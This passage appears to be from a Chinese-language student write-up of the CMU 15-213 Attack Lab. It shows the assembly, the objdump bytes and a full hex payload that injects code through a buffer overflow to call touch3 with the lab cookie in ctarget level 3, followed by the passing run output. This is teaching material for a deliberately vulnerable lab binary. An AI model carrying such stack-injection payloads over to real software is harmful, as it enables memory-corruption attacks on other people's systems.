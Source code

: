 ```bash
gcc -c level2.s
objdump -d level2.o
```

得到：

```bash
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

- `插入%rsp返回地址`

得到：

```bash
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 78 
dc 61 55 00 00 00 00 35 
39 62 39 39 37 66 61 00
```

最后的插入的为`cookie`ascii码:

> 可以通过 `man ascii`来查看ascii码

为：`35 39 62 39 39 37 66 61 00`

- 最后pass：

```bash
[root@c95bfe601b83 target1]# ./hex2raw -i solutions/level3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```

# 3 Solutions -- rtarget

## 3.1 relative knowledge

### 3.1.1 [ROP](https://zh.wikipedia.org/wiki/%E8%BF%94%E5%9B%9E%E5%AF%BC%E5%90%91%E7%BC%96%E7%A8%8B)
